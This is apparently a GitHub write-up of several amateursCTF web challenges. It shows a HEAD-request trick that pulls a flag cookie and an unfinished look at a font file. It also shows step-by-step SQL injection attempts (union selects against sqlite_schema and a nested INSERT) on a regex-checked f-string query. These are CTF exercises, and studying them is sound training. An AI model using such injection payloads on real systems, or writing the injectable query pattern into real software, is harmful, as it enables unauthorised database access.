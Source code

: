 ## web/denied
- problem
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/4ce1ae31-5215-4b63-a718-291dfc484dc5)
- on reaching the endpoint
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/12e69d4e-1bdd-425f-9f81-c5c5c2a66ed1)
- the given code
```
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => {
  if (req.method == "GET") return res.send("Bad!");
  res.cookie('flag', process.env.FLAG ?? "flag{fake_flag}")
  res.send('Winner!')
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})

```
- so we must not use get method
- copied the curl request and made a post
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/3758a32d-8118-4002-baf0-3b2d75bebeda)
- the post method is not available
- so we see what options do we have
- we see get,head
- now from this https://reqbin.com/req/c-tmyvmbgu/curl-head-request-example
- we do send a head request
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/b8d0bda9-d3c4-4e25-a028-30c5a6b8e025)
```
C:\home\radha> curl http://denied.amt.rs/ -I     
HTTP/1.1 200 OK
Content-Length: 7
Content-Type: text/html; charset=utf-8
Date: Sat, 06 Apr 2024 05:37:48 GMT
Etag: W/"7-skdQAtrqJAsgWjDuibJaiRXqV44"
Server: Caddy
Set-Cookie: flag=amateursCTF%7Bs0_m%40ny_0ptions...%7D; Path=/
X-Powered-By: Express
```
- we got a cookie
- use url decoder
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/c1be76e1-43d2-4bc7-843b-90b6261f8924)
- we get the flag`amateursCTF{s0_m@ny_0ptions...}`
## web/agile-rut --not completed
- problem
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/c962a307-98b8-4f64-a8a4-e8964e8c45b2)
- the endpoint
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/1afebdb7-57e2-433e-9f85-aada7e3d7793)
- otf file  OpenType font format.
- https://docs.fileformat.com/font/otf/
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/eb110157-b1d8-4fe1-a052-8261aadd37ce)
```
C:\home\radha\Downloads\amertus_ctf\web\agile_rut> head *
OTTO
� CFF Ϋ�p�[GSUBЄ��d�rOS/2px
Qxcmap9�x��4head*Rv��6hhea���$hmtxo��maxphname��D}p-post� ت��_<�3{�3{���+���RhPh��������1�XXXX@  =��R����  "�)5'
�
```
- so type,name descripton
```
uint32	sfntVersion	0x00010000 or 0x4F54544F (‘OTTO’)
```
## web/one-shot
- problem
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/3504a4c4-81b4-4a62-b96c-c056218cced4)
- sqlite3 https://www.digitalocean.com/community/tutorials/how-to-use-the-sqlite3-module-in-python-3
- in memory sqlite3 https://www.sqlite.org/inmemorydb.html
- support for concurrency https://stackoverflow.com/questions/393554/python-sqlite3-and-concurrency
- https://www.geeksforgeeks.org/python-re-search-vs-re-match/
```
import re
a=input("give id")
while(a!=0):
    if not re.match("[1234567890abcdef]{3}", a):
        print("invalid id")
    else:
        print("valid")
    a=input("give id")
```
- there is a issue with regular expression it is re.match
- so if we give exaclty 16 valid chars followed by anything it just accepts
```
@app.route("/search", methods=["POST"])
def search():
    id = request.form["id"]
    if not re.match("[1234567890abcdef]{16}", id):
        return "invalid id"
    searched = db.execute(f"SELECT searched FROM table_{id}").fetchone()[0]
    if searched:
        return "you've used your shot."

```
- so here id is user contolled
- i dont see any default tables with table_* in sqlite3
- we need to see what happens` searched = db.execute(f"SELECT searched FROM table_{id}").fetchone()[0]` when table does not exist
- `a%'union select 1/*` in /search gives internal servre err
- `a%'union select "1"/*`
- this does give output so there is sql injection
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/df4d2a1e-53de-4f99-b249-9683cca1866e)
- `a%';union select "1"/*` -internal sever er
- `a%'union select "1" from (DELETE FROM table_{id})/*` -500
- `a%'union select "1" from table_{id}/*` -500
- sqlite_schema
- https://www.sqlite.org/schematab.html
- `a%'union select name from sqlite_schema/*` this does give a lot of info
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/ace9ce66-2470-4753-8f09-966567c1c3ac)
- INSERT INTO table (column1,column2 ,..) VALUES( value1,	value2 ,...)
- `SELECT name 
FROM (
    INSERT INTO mytable1 (col1, col2) 
    VALUES (val1, val2) 
    RETURNING name
) AS inserted_rows;
`
- a%'union select name from (INSERT INTO sqlite_schema(name) VALUES (1729) RETURNING name) /* 

